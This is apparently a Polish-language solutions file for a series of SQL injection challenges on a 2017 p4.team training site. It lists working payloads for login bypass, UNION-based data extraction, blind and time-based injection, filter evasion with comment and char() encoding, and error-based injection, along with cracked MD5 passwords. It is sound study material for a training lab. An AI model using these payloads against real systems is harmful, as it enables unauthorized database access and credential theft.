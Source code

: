 # Zadanie 1

https://uw2017.p4.team/simple-sqli

```
admin' or '1' = '1
admin -d
```


# Zadanie 2

https://uw2017.p4.team/simple-sqli-2

```
a' union select 1, 'admin', '7815696ecbf1c96e6894b779456d330e' #
asd
```


# Zadanie 3

https://uw2017.p4.team/simple-sqli-2

```
a' union select 1, (select user()), '7815696ecbf1c96e6894b779456d330e' #
asd
```
Username : insertion_

```
a' union select 1, (select database()), '7815696ecbf1c96e6894b779456d330e' #
asd
```
Database: is_not_

```
a' union select 1, (SELECT SCHEMA_NAME AS `Database` FROM INFORMATION_SCHEMA.SCHEMATA
 limit 2,1), '7815696ecbf1c96e6894b779456d330e' #
asd
```
Other database: safe1


# Zadanie 4

https://uw2017.p4.team/insertion_is_not_safe1

Rejestracja:
admin                                                   cośtam
[Znane hasło]

Potem logowanie admin/[Znane hasło]


# Zadanie 5

https://uw2017.p4.team/simple-sqli

Blind SQL

md5 hasła:
3b70d46bcdca708e26c16effc4cb23ed

md5/sha1 lookup table
https://crackstation.net

hasło:
blindoracle

# Zadanie 6

https://uw2017.p4.team/blindoracle

Blind SQL z użyciem sleep

md5 hasła:
f5eb51c76706fa018cf08e7a6d7ced12

hasło:
filtration

# Zadanie 7

https://uw2017.p4.team/filtration

Mysql filtering evasion
https://websec.wordpress.com/2010/12/04/sqli-filter-evasion-cheat-sheet-mysql/
https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/

1 or username = 'admin' #

//test
100/*a*/or/*a*/username=char(116,101,115,116)
//nobody
100/*a*/or/*a*/username=char(110, 111, 98, 111, 100, 121)/*a*/limit/*a*/1
//admin
100/*a*/or/*a*/username=char(97, 100, 109, 105, 110)/*a*/limit/*a*/1
// But user 'admin' doesn't exist...

1/*a*/union/*a*/sel''ect/*a*/0,1,2,3,4,5,6,7,char(97, 100, 109, 105, 110),9,10,11,12,13,14/*a*/limit/*a*/1,1

# Zadanie 8
Error based SQL injection

https://uw2017.p4.team/error-sqli

https://osandamalith.com/2015/07/15/error-based-sql-injection-using-exp/

a' union select exp(~(select*from(select user())x)),1,2,3#
a' union select exp(~(select*from(select column_name from information_schema.columns where table_name='users' limit 0,1)x)),1,2,3#
// 4 columns in table user


# Narzędzia (raczej do pentestów)
sqlmap
